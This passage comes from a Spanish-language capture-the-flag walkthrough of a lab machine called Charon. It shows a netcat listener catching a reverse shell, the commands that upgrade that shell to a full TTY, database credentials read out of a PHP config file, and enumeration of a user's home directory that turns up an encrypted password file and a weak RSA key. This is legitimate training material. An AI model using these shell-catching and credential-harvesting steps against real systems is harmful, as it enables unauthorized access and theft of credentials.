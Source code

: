 Y obtengo una reverse shell

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.31] 50234
bash: cannot set terminal process group (1330): Inappropriate ioctl for device
bash: no job control in this shell
www-data@charon:/var/www/html/freeeze/images$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@charon:/var/www/html/freeeze/images$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@charon:/var/www/html/freeeze/images$ export TERM=xterm
www-data@charon:/var/www/html/freeeze/images$ export SHELL=bash
www-data@charon:/var/www/html/freeeze/images$ stty rows 55 columns 209
www-data@charon:/var/www/html/freeeze/images$ hostname -I
10.10.10.31 dead:beef::250:56ff:feb9:6953 
```

Encuentro credenciales de acceso a la base de datos

```null
www-data@charon:/var/www/html/freeeze/include$ cat __config.php  
<?php
$dbuser="freeeze";
$dbpass="fr2424z";
$dbhost="localhost";
$dbname="freeeze";
?>
```

La enumero, pero no encuentro nada que me sirva

Puedo acceder al directorio personal del usuario decoder

```null
www-data@charon:/home/decoder$ ls -la
total 36
drwxr-xr-x 3 decoder freeeze 4096 Aug 16 16:46 .
drwxr-xr-x 3 root    root    4096 Aug 16 16:46 ..
lrwxrwxrwx 1 root    root       9 Aug 16 15:49 .bash_history -> /dev/null
-rw-r--r-- 1 decoder freeeze  220 Sep  1  2015 .bash_logout
-rw-r--r-- 1 decoder freeeze 3764 Jun 25  2017 .bashrc
drwx------ 2 decoder freeeze 4096 Aug 16 16:46 .cache
-rw-r--r-- 1 decoder freeeze  654 Jun 25  2017 .profile
-rw-r--r-- 1 decoder freeeze  138 Jun 23  2017 decoder.pub
-rw-r--r-- 1 decoder freeeze   32 Jun 23  2017 pass.crypt
-r-------- 1 decoder freeeze   33 Feb 10 15:53 user.txt
```

Puedo leer varios archivos. Uno de ellos parece una clave pública RSA (Muy pequeña, se puede tratar de romper)
